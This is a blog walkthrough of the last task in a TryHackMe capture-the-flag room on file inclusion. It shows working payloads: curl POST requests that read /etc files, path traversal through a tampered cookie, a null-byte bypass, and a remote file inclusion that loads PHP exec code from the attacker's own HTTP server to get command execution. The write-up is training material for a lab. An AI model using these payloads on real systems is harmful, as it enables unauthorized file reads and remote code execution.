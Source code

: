 ```yaml
---
title: "THM: File Inclusion Writeup"

Created: February 20, 2022 4:26 PM
Last edited: February 20, 2022 10:42 PM
Tags: 
- Cybersecurity
- File Inclusion
- THM

layout: post
headerImage: false
category: blog
---
```


## Hi there !

I was doing the [File Inclusion](https://tryhackme.com/room/fileinc) room on TryHackMe. Most of the tasks, you can follow the instructions; however, I found the last one is challenging, so I thought of do the write-up on the last task—Task 8, giving some my thought process. Let's get started!

## Task 8:

1. Capture Flag1 at `/etc/flag1`
    
    If you try to get the file from the input, nothing is responding back. You can also try on the URL `[http://MACHINE_IP/challenges/chall1.php?file=../../../../etc/flag1](http://MACHINE_IP/challenges/chall1.php?file=../../../../etc/flag1)` , there is nothing responded. Well, if you look at the `Network` tab on the Firefox and see that it's calling with `GET` method. As the hint suggests: try using `POST` method. Alright, in my case, I'm using the `curl` on command line:
    
    ```bash
    $: curl http://MACHINE_IP/challenges/chall1.php -X POST -d "file=/etc/flag1"
    ```
    
    Hooray, the flag has been revealed!
    
2. Capture Flag2 at `/etc/flag2`
    
    Let's go to `[http://MACHINE_IP/challenges/chall2.php](http://MACHINE_IP/challenges/chall2.php)` You will see as the attached below:
    
    ![Untitled](/assets/posts/2022-02-20-THM-File-Inclusion-Writeup/Untitled.png)
    
    There is no input form, hmm, try adding the parameter to the URL 🤔 Let's try, `[http://MACHINE_IP/challenges/chall2.php?file=../../../../etc/flag2](http://MACHINE_IP/challenges/chall2.php?file=../../../../etc/flag2)` Nothing happens.
    
    Let's look at the `Development tool`, something interesting might be there. Look at the `Network` tab, the request is calling with `GET`; what if it's a `POST` , I try `curl` as the previous exercise, but still nothing happens. Hmm, the hint says that **"Checks the cookie"**, alright, it shows `THM=Guest` , let's try changing to `THM=admin` (you can change the cookie on `Storage` tab), then refresh the page... Oo-oh, something's changed!
    
    ![Untitled](/assets/posts/2022-02-20-THM-File-Inclusion-Writeup/Untitled%201.png)
    
    It has been revealed that there's the vulnerability on `cookie`, let's try changing to `/etc/flag2` There is some sort of input validation for `include()` function there, see below.
    
    ![Untitled](/assets/posts/2022-02-20-THM-File-Inclusion-Writeup/Untitled%202.png)
    
    Fine, let's do the path traversal: `THM=../../../../etc/flag2` And we got it! I'm not gonna show the flag 🤭
    
    ![Untitled](/assets/posts/2022-02-20-THM-File-Inclusion-Writeup/Untitled%203.png)
    
3. Capture Flag3 at `/etc/flag3`
    
    Let's go to the challenge 3 page. There is an input, so try getting `../../../../etc/flag3`
    
    ![Untitled](/assets/posts/2022-02-20-THM-File-Inclusion-Writeup/Untitled%204.png)
    
    Seems like it sanitizes the input and adds `.php` to the file name, smart! But, what if we request it using `curl` with `POST` Let's try.
    
    ```bash
    $: curl http://MACHINE_IP/challenges/chall3.php -X POST -d "file=/etc/flag3%00"
    ```
    
    You will get a warning that the output can mess your terminal, so don't forget to pass the output into a file! and let's look at your output file! 😎
    
4. Gain RCE in **Lab #Playground** `/playground.php` with RFI to execute the `hostname` command. What is the output?
    
    Follow the `Task 6: Remote File Inclusion - RFI` lab, but instead of `<?PHP echo "Hello THM"; ?>` , you will do
    
    ```php
    <?PHP print exec('hostname'); ?>
    ```
    
    Before calling our `cmd.txt` , don't forget to launch the local server. You can use `http.server` in Python3:
    
    ```python
    $: python3 -m http.server 8080
    ```
    
    In my case, I'm using port 8080; when I call via the url, it will be `[http://MACHINE_IP/playground.php?file=http://LOCAL_IP:8080/cmd.txt](http://MACHINE_IP/playground.php?file=http://LOCAL_IP:8080/cmd.txt)` There we go! The flag is on the screen.
    

We’re done 🎉